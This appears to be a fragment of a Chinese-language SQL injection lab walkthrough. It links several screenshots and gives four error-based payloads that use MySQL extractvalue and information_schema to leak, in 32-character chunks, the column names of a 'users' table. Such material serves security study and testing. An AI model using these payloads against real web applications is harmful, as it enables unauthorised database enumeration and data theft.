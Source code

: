 ![image-20220206205604457](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120573.png)

![image-20220206205955260](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120595.png)

![image-20220206210157224](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120585.png)

```
爆字段
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' limit 0,1),0x7e)) or'		//前面0-32位
1' and extractvalue(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users' limit 0,1),32),0x7e)) or'	//中间32-64位
1' and extractvalue(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users' limit 0,1),64),0x7e)) or'	//64-96
1' and extractvalue(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users' limit 0,1),96),0x7e)) or'	//最后
```
